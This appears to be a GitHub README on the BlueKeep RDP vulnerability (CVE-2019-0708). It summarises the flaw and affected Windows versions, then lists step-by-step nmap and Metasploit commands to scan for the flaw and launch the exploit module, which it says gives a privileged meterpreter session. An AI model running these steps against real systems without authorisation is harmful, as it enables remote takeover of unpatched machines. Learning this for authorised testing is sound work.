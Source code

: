 <h1>CVE-2019-0708-BlueKeep</h1>
<hr>
<ul>
  <li>
    Bluekeep (CVE-2019-0708) is the name given to an RDP vulnerability in Windows that could potentially allow attackers to remotely execute arbitrary code and gain access to a windows syatem and consequently the network that the target system is a part of.
  </li>
  <li>
    The BlueKeep vulnerability was made public by Microsoft in May 2019.
  </li>
  <li>
    The BlueKeep exploit takes advantages of a vulnerability in the windows RDP protocol that allows attackers to gain access to a chunk of kernel memory consequently allowing them to remotely execute arbitrary code at the system level without authentication.
  </li>
  <li>
    Microsoft released a patch for this vulnerability on May 14th,2019 and has urged companies to patch this vulnerability as soon as possible.
  </li>
  <li>
    At the time of discovery, about 1 million systems worldwide were found to be vulnerable.
  </li>
  <li>
    The BlueKeep vulnerability affects multiple versions of windows:
    <ul>
      <li>XP</li>
      <li>Vista</li>
      <li>Windows 7</li>
      <li>Windows Server 2008 & R2</li>
    </ul>
    
  </li>
</ul>

</hr>
<h2>CVE-2019-0708-BlueKeep Exploit</h2>
<ul>
  <li>
    This BlueKeep Vulnerability has various illegitimate PoC's and exploit code that could be malicious in nature. It is therefore recommended to only utilize verified exploit code and modules for exploitation.
  </li>
  <li>
    The BlueKeep exploit has an MSF auxiliary module that can be used to check if a target system if vulnerable to the exploit and also has and exploit module that can be used to exploit the vulnerability on unpatched systems.
  </li>
  <li>
    The BlueKeep exploit module can be used to exploit vulnerable Windows systems and consequently provide us with a privileged meterpreter session on the target system.
  </li>
</ul>
Note: Targeting Kernel space memory and application can cause system crashes.
<hr>

<h3>Pratically</h3>
<ol>
  <li><code>nmap -p 3389 {ip}</code>></li><br>
</ol>
<hr>
<span>check target is vulnerable to this vulnerable</span>
<ol>
  <li><code>msfconsole</code></li>
  <li><code>search BlueKeep</code></li>
  <li><code>use auxiliary/scanner/rdp/cve_2019_0708_bluekeep</code></li>
  <li><code>show options</code></li>
  <li><code>set RHOSTS {ip}</code></li>
  <li><code>run</code></li>

  Now we can know that the target is vulnerable to this vulnerability or not. If vulnerable move to exploit.
  </ol>
  <hr>
  <ol>
  <li>search BlueKeep</li>
  <li><code>exploit/windows/rdp/cve_2019_0708_bluekeep_rce</code></li>
  <li><code>show options</code></li>
  <li><code>set RHOSTS {ip}</code></li>
  <li><code>exploit</code></li>
  <li><code>Show targets</code></li>
  <li><code>set target 2</code></li>
  <li><code>exploit</code></li>
</ol>
